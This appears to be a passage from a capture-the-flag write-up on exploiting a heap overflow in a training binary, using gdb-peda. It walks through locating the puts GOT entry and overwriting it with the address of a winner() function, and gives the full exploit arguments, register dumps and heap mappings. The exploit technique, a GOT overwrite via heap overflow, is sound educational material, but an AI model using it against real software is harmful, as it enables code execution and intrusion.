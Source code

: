     gdb-peda$ disassemble 0x80483d0
    Dump of assembler code for function puts@plt:
       0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049844
       0x080483d6 <+6>:     push   0x20
       0x080483db <+11>:    jmp    0x8048380
    End of assembler dump.

Bingo `DWORD PTR ds:0x8049844`, is the address of the `puts` GOT table entry. Replacing the 'FFFF' characters with the `puts` GOT table address `0x8049844`:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" 000011112222333344445555
    Stopped reason: SIGSEGV
    0x30303030 in ?? ()


`0x30303030` happens to be the ASCII code for the `0` (zero) character, which are the first 4 bytes of the second input argument. The segfault `0x30303030 in ?? ()` highlights that the `puts` call, got rewired (its GOT entry) to invoke instruction `0x30303030`. Dumping the `EIP` confirms this:

    gdb-peda$ info registers
    eax            0x8049844        0x8049844
    ecx            0x0      0x0
    edx            0x19     0x19
    ebx            0xb7fd5ff4       0xb7fd5ff4
    esp            0xbffffc3c       0xbffffc3c
    ebp            0xbffffc68       0xbffffc68
    esi            0x0      0x0
    edi            0x0      0x0
    eip            0x30303030       0x30303030

Placing the address of the desired instruction to be executed is now trivial, for example the `winner()` function:

    gdb-peda$ x winner
    0x80484ec <winner>:      "U\211\345\203\354\030\307\004$"

Now to write the address of `winner()` into the EIP:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" \
        "`/bin/echo -ne "\xec\x84\x04\x08"`"
    and we have a winner @ 1570881614

To gain a better intuition about what is going here. Set breakpoints after each `malloc` call. The first break is hit:

    Breakpoint 1, 0x08048525 in main (argc=0x3, argv=0xbffffd24) at main.c:21
    21        i1 = malloc(sizeof(struct internet));

To visualise the heap segment further, need its segment address:

    gdb-peda$ info proc mappings
    process 2813
    Mapped address spaces:
    
            Start Addr   End Addr       Size     Offset objfile
             0x8048000  0x8049000     0x1000          0      /root/code/heap1/heap1
             0x8049000  0x804a000     0x1000          0      /root/code/heap1/heap1
             0x804a000  0x806b000    0x21000          0           [heap]
            0xb7e76000 0xb7e77000     0x1000          0
            0xb7e77000 0xb7fd3000   0x15c000          0      /lib/cmov/libc-2.13.so
